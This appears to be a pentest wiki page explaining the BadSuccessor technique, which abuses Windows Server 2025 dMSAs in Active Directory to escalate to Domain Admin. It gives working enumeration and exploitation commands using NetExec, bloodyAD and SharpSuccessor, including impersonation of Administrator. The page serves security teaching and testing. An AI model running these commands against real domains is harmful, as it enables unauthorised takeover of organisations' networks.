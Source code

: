 # BadSuccessor (dMSA abuse)

## Theory

In Windows Server 2025, Microsoft introduced [delegated Managed Service Accounts (dMSAs).](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/delegated-managed-service-accounts/delegated-managed-service-accounts-overview) A dMSA is a new type of service account in Active Directory (AD) that expands on the capabilities of [group Managed Service Accounts](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/group-managed-service-accounts/group-managed-service-accounts/group-managed-service-accounts-overview) (gMSAs).&#x20;

If we have **`GenericAll`**, **`CreateChild`**, **`WriteDACL`**, or **`WriteOwner`** permissions on _any_ OU—or can modify an existing dMSA, we can escalate from low-level access to full Domain Admin via the **BadSuccessor** technique.

{% hint style="success" %}
**Exploiting this vector does not require the domain to actively use dMSAs.** The feature is automatically enabled in any domain that includes at least one Windows Server 2025 domain controller, and its presence alone is enough to make the attack path viable.
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to enulerate if a a target is vulnerable to bad successor attack

```bash
netexec ldap $DC_IP -u $USER -p $PASSWORD -M badsuccessor
```

We can  then exploit it using [BloodyAd](https://github.com/CravateRouge/bloodyAD) (Python).

```bash
# Enumerate writable attributes for the user we are authenticating as
bloodyAD -d $DOMAIN_FQDN -u $USER -p $PASSWORD --host $DC_FQDN get writable --detail

# BadSuccessor attack to create the dMSA object called dmsa_pwn
bloodyAD -d $DOMAIN_FQDN -u $USER -p $PASSWORD --host $DC_FQDN add badSuccessor dmsa_pwn
```
{% endtab %}

{% tab title="Windows" %}
You can use the [Get-BadSuccessorOUPermissions.ps1](https://github.com/akamai/BadSuccessor) script to identify if a a target is vulnerable to bad successor attack.

```powershell
.\Get-BadSuccessorOUPermissions.ps1
```

[SharpSuccessor](https://github.com/logangoins/SharpSuccessor) (C#) can the be used to exploit it

```powershell
# /path: The OU that the user has access to
# /account: Account that have enought permissions on the OU
# /name: name for the dMSA object that will be created 
.\SharpSuccessor.exe add /path:"ou=badOU,dc=domain,dc=local" /account:$USERNAME /name:dmsa_pwned /impersonate:Administrator
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory" %}

{% embed url="https://specterops.io/blog/2025/05/27/understanding-mitigating-badsuccessor/" %}
